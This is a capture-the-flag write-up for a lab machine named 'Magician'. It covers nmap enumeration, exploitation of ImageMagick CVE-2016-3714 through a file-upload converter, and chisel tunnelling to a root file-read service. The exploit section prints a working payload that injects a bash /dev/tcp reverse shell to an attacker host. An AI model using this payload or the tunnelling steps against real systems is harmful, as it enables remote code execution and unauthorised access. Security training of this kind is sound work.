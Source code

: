 ## Magician

tag CVE-2016-3714
add magician to /etc/hosts

# Enumeration
```
# Nmap 7.91 scan initiated Sun Feb 21 19:53:49 2021 as: nmap -sC -sV -oN nmap/initial -vvv -p 21,8080,8081 10.10.171.198
Nmap scan report for magician (10.10.171.198)
Host is up, received echo-reply ttl 61 (0.15s latency).
Scanned at 2021-02-21 19:53:50 PST for 38s

PORT     STATE SERVICE    REASON         VERSION
21/tcp   open  ftp        syn-ack ttl 61 vsftpd 2.0.8 or later
8080/tcp open  http-proxy syn-ack ttl 61
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 03:53:59 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T03:53:59.336+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest:
|     HTTP/1.1 404
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 03:53:58 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T03:53:58.219+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   HTTPOptions:
|     HTTP/1.1 404
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 03:53:58 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T03:53:58.649+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   RTSPRequest:
|     HTTP/1.1 505
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Mon, 22 Feb 2021 03:53:58 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http       syn-ack ttl 61 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.91%I=7%D=2/21%Time=60332AD5%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,13B,"HTTP/1\.1\x20404\x20\r\nVary:\x20Origin\r\nVary:\x20Acces
SF:s-Control-Request-Method\r\nVary:\x20Access-Control-Request-Headers\r\n
SF:Content-Type:\x20application/json\r\nDate:\x20Mon,\x2022\x20Feb\x202021
SF:\x2003:53:58\x20GMT\r\nConnection:\x20close\r\n\r\n{\"timestamp\":\"202
SF:1-02-22T03:53:58\.219\+0000\",\"status\":404,\"error\":\"Not\x20Found\"
SF:,\"message\":\"No\x20message\x20available\",\"path\":\"/\"}")%r(HTTPOpt
SF:ions,13B,"HTTP/1\.1\x20404\x20\r\nVary:\x20Origin\r\nVary:\x20Access-Co
SF:ntrol-Request-Method\r\nVary:\x20Access-Control-Request-Headers\r\nCont
SF:ent-Type:\x20application/json\r\nDate:\x20Mon,\x2022\x20Feb\x202021\x20
SF:03:53:58\x20GMT\r\nConnection:\x20close\r\n\r\n{\"timestamp\":\"2021-02
SF:-22T03:53:58\.649\+0000\",\"status\":404,\"error\":\"Not\x20Found\",\"m
SF:essage\":\"No\x20message\x20available\",\"path\":\"/\"}")%r(RTSPRequest
SF:,259,"HTTP/1\.1\x20505\x20\r\nContent-Type:\x20text/html;charset=utf-8\
SF:r\nContent-Language:\x20en\r\nContent-Length:\x20465\r\nDate:\x20Mon,\x
SF:2022\x20Feb\x202021\x2003:53:58\x20GMT\r\n\r\n<!doctype\x20html><html\x
SF:20lang=\"en\"><head><title>HTTP\x20Status\x20505\x20\xe2\x80\x93\x20HTT
SF:P\x20Version\x20Not\x20Supported</title><style\x20type=\"text/css\">bod
SF:y\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1,\x20h2,\x20h3,\x20b\x
SF:20{color:white;background-color:#525D76;}\x20h1\x20{font-size:22px;}\x2
SF:0h2\x20{font-size:16px;}\x20h3\x20{font-size:14px;}\x20p\x20{font-size:
SF:12px;}\x20a\x20{color:black;}\x20\.line\x20{height:1px;background-color
SF::#525D76;border:none;}</style></head><body><h1>HTTP\x20Status\x20505\x2
SF:0\xe2\x80\x93\x20HTTP\x20Version\x20Not\x20Supported</h1></body></html>
SF:")%r(FourOhFourRequest,15E,"HTTP/1\.1\x20404\x20\r\nVary:\x20Origin\r\n
SF:Vary:\x20Access-Control-Request-Method\r\nVary:\x20Access-Control-Reque
SF:st-Headers\r\nContent-Type:\x20application/json\r\nDate:\x20Mon,\x2022\
SF:x20Feb\x202021\x2003:53:59\x20GMT\r\nConnection:\x20close\r\n\r\n{\"tim
SF:estamp\":\"2021-02-22T03:53:59\.336\+0000\",\"status\":404,\"error\":\"
SF:Not\x20Found\",\"message\":\"No\x20message\x20available\",\"path\":\"/n
SF:ice%20ports%2C/Tri%6Eity\.txt%2ebak\"}");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 21 19:54:28 2021 -- 1 IP address (1 host up) scanned in 38.50 seconds
```
# FTP
allows anonymous login after a delay but simply instructs to imagetragik.com to discuss the cve vulnerability

# Port 8080
Enumeration here finds a /file directory which provides a json listing of files uploaded from port 8081

# Port 8081
This allows us to upload pngs to be converted into jpgs
We need to adjust our imagetragik payload to be able to provide us a reverse shell through this exploitable conversion using imagemagick
fill 'url(https://IP/logo.dbb7e574.png";bash -c \'bash -i >& /dev/tcp/IP/PORT 0>&1\'")'
ends up being a usable payload, seems like url format needs to be 
https://[url]/image.png";[RCE]")'

We find the user flag in the magician home directory
```
cat the_magic_continues
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
magician@magician:~$
```

locally listening seems to imply we should check what ports are open locally so
we run the following
```
ss -tunlp
Netid State   Recv-Q  Send-Q          Local Address:Port     Peer Address:Port
udp   UNCONN  0       0               127.0.0.53%lo:53            0.0.0.0:*
udp   UNCONN  0       0           10.10.197.57%eth0:68            0.0.0.0:*
tcp   LISTEN  0       128             127.0.0.53%lo:53            0.0.0.0:*
tcp   LISTEN  0       128                 127.0.0.1:6666          0.0.0.0:*
tcp   LISTEN  0       128                   0.0.0.0:8081          0.0.0.0:*
tcp   LISTEN  0       32                          *:21                  *:*
tcp   LISTEN  0       100                         *:8080                *:*      users:(("java",pid=1004,fd=25))
```
so lets forward this port us remotely through an ssh tunnel. We can forward this post to ourselves through a ssh tunnel or using chisel as follows.

on target 
```
./chisel client [our ip]:[our port] R:[open local port]:127.0.0.1:6666
```
on our machine
```
chisel server --reverse --port [our port]
```

we can then set up an http proxy on port 6666 for localhost and we are presented a new page when we go to magician:8080 seems like we can read files from the system but with root privilege so we simply choose the file /root/root.txt and we have our flag
